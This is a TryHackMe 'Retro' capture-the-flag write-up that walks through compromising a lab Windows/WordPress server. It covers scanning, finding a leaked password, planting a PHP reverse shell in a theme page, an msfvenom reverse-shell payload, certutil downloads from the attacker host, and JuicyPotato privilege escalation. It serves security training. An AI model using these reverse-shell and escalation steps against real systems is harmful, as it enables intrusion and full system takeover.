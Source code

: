 ```yaml
---
title: Retro Writeup || Tryhackme
date: 2025-3-10 00:00:00 +0800
categories: [Tryhackme, Offensive Pentesting Path]
tags: [tryhackme, writeup, walkthrough, web, fuzzing, windows]     # TAG names should always be lowercase
description: This is a Writeup for Retro Room Which is a part of the offensive pentesting path on Tryhackme
---
```


### Scanning

Starting with scanning our target and do not forget to use the **-Pn** flag as the machine does not respond to ping (ICMP)

```
# Nmap 7.94SVN scan initiated Thu Mar  6 10:33:05 2025 as: nmap -A -p- -T4 -Pn -oN RetroScan 10.10.199.58
Nmap scan report for 10.10.199.58
Host is up (0.12s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-03-06T15:37:19+00:00; +12s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2025-03-05T15:28:20
|_Not valid after:  2025-09-04T15:28:20
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2025-03-06T15:37:14+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We will see that there is http port on our target so let's see it

![img-description](/assets/img/Retro/Web.png)
_Website_

it is the default windows server welcoming page so nothing interesting here so we need to dig deeper.

### Website Discovery

It appears from the first question that the website is live on some hidden directory so we need to do directory fuzzing on our website.

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 'http://10.10.199.58/FUZZ' 
```

We can see that there is a directory called Retro which the website is live on.

![img-description](/assets/img/Retro/DirFuzzing.png)
_Hidden Dir_

So let's explore our website, our website is about someone called **Wade** and he is posting about some games that he love

![img-description](/assets/img/Retro/Retro.png)
_Retro_

i clicked on his username to explore more about him and when scrolling down i found that there is some sort of a login page

![img-description](/assets/img/Retro/Login.png)
_Login_

i clicked on it and it is a wordpress login page which seems to have a problem, the problem is when i tried to enter default credentials it tells me **invalid username** this means that we can enumerate users using this login page.

![img-description](/assets/img/Retro/wp-login.png)
_wp-login_

i have tried the username wade and it also told me that the user wade is exists but i have the wrong password, so now we need to find the right password.

![img-description](/assets/img/Retro/User.png)
_wade_

when i was seeing the psots in the website i found the second one is interesting, wade is saying that he loves the movie called Ready Player one and that he is mistyping the the name of his avatar when he log in.

![img-description](/assets/img/Retro/RPO.png)
_movie_

so i have clicked on the post to see if there is more details about it and i have found that he wrote the password in plaintext in a comment.

![img-description](/assets/img/Retro/pass.png)
_Password_

### Gaining Access

as we now have access on the admin panel we can easily gain access to the server you can search for how to get a reverse shell from wp admin panel and you will see the steps of it, so let's see how can we do this.

follow the steps in the following image after you enter the credentials we found.

![img-description](/assets/img/Retro/Shell.png)
_Reverse Shell_

let's explain what we are doing, we are now trying to access the 404 page and we can see that it is a php code so we need to find a php reverse shell for windows we will find this on [Github](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php) we now will need to change the php code of the page with the reverse shell php code **after changing our ip and port that we need to recieve the reverse shell back on it**, and open a nc listener with the port you have entered in the code and wait for the connection

```
nc -nlvp 4444
```

after doing this we now should go to the cmd and type this command to access the 404.php page

```
curl -X GET "http://10.10.244.143/retro/wp-content/themes/90s-Retro/404.php"
```

it will execute the shell and we will see that we have access on the server now.

![img-description](/assets/img/Retro/Server-access.png)
_Server Access_

#### User Flag

if we tried to access the user wade to get our user flag we will find that it is inaccessable, but as we now have his credentials we can try to access the user wade via rdp.

```
xfreerdp /u:wade /v:[your machine ip] /p:parzival
```

you can see that we have user access now and the flag is on the desktop

![img-description](/assets/img/Retro/Access.png)
_User access_

### Privilege Escalation

#### Privileges Enum

In order to escalate our privilege first thing i will do is see what are my privileges on the system, if we see the user wade we will not see much but on the server account there is an interesting one.

![img-description](/assets/img/Retro/priv.png)
_Priv_

We will find that i have the **SeImpersonatePrivilege** Enabled

We will use a tool called **JuicyPotato** to abuse the SeImpersonatePrivilege by creating a malicious token and impersonating it to escalate to SYSTEM.

You can find it here [JuicyPotato](https://github.com/ohpe/juicy-potato/releases)

#### Root Access

we will also need a shell to connect back to our machine to give us the system access.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<Yourip> LPORT=<Yourport> -f exe -o shell.exe
```

Now to get the root access we will upload the two files to our machine via opening http server on the same directory we have the tool in.

```
python3 -m http.server
```

then use this command for transfering the files **Note: do not forget to do this in the C:\Users\Public> in order for everything to work**

```
certutil -urlcache -f http://<Yourip>:8080/JuicyPotato.exe JuicyPotato.exe
certutil -urlcache -f http://<Yourip>:8080/JuicyPotato.exe JuicyPotato.exe
```

Now let's execute our tool to see if we can get access, the -c flag specifies the Class ID, or CLSID it is a serial number that represents a unique ID for any application component in Windows, and it is different from os to another i have tried many of them but this is the one which worked with me.

```
JuicyPotato.exe -l 1111 -p shell.exe -t * -c {4661626C-9F41-40A9-B3F5-5580E80CB347}
```
now open a listener to receive the system shell.

![img-description](/assets/img/Retro/Root.png)
_Root Access_

And now we have our root flag

```
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
7958b569565d7bd88d10c6**********
```
